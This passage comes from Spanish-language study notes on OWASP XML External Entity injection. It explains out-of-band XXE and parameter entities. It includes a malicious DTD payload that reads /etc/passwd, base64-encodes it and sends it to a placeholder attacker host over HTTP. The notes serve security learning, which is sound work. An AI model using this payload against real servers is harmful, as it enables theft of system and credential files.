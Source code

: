 Si no se puede declarar la entidad en la estructura XML, se puede crear una entidad de parámetro en el mismo DTD llamando a esa entidad (”xxe”), es por eso que se está llamando al %xxe en la entidad.

```bash
# malicious.dtd
<!ENTITY % file SYSTEM 
"php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval 
"<!ENTITY &#x25; exfil SYSTEM 'http://<IPAtacante/?file=%file;'>">
%eval;
%exfil;
```

Como se está declarando una entidad dentro de otra entidad, el porcentaje de se debe poner de la siguiente forma: &#x25;

También hay que tomar en cuenta que se deben cargar todas las entidades para que funcionen, es por eso que al final se llaman a la “eval” y “exfil”, la “file” ya está cargándose en la segunda entidad por lo que no es necesario especificarla al final.

- ¿Para qué sirve “%” (entidad de parámetro)?
    
    El "%" se utiliza para definir una entidad de parámetro llamada "%xxe;" que está vinculada a la ubicación "http://<IPAtacante>/malicious.dtd". Luego, se hace referencia a esta entidad de parámetro utilizando "%xxe;" dentro de la declaración de tipo de documento (DTD).
    
    El uso de "%" para declarar una entidad de parámetro dentro del DTD y luego hacer referencia a esa entidad con "%nombreentidad;" es similar a referenciar una entidad en la estructura XML utilizando "&entidad;".
    
    Tanto en el DTD como en la estructura XML, el objetivo es proporcionar un mecanismo para reutilizar y referenciar contenido definido previamente. La diferencia radica en el contexto en el que se utilizan estas referencias:
    
    - Dentro del DTD: Se utilizan "%" y "%nombreentidad;" para definir y hacer referencia a entidades de parámetro en el DTD. Estas entidades se utilizan para definir estructuras y reglas adicionales relacionadas con la validación y la definición de tipos de datos dentro del DTD.
    - Dentro de la estructura XML: Se utiliza "&entidad;" para hacer referencia a entidades definidas previamente en el DTD o en la entidad general del documento XML. Estas referencias se utilizan para insertar contenido específico en el documento XML y pueden incluir caracteres especiales, entidades predefinidas o entidades definidas por el usuario.
    
    En resumen, "%" y "%nombreentidad;" se utilizan para referenciar entidades de parámetro en el DTD, mientras que "&entidad;" se utiliza para referenciar entidades dentro de la estructura XML en sí. Ambas formas permiten la reutilización de contenido y facilitan la estructuración y el procesamiento del documento XML.
    

El objetivo es que el servidor se mande una petición a sí mismo para que busque el archivo “/etc/passwd” en su máquina local y lo convierta en base64 para que luego lo mande con una petición por GET a la dirección del atacante:

![XXE OBB para que el servidor cargue un archivo malicioso](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 11.png)

XXE OBB para que el servidor cargue un archivo malicioso

![Archivo malicioso que cargará el servidor](../assets/OWASP-TOP-10/XML External Entity Injection (XXE)/Untitled 12.png)
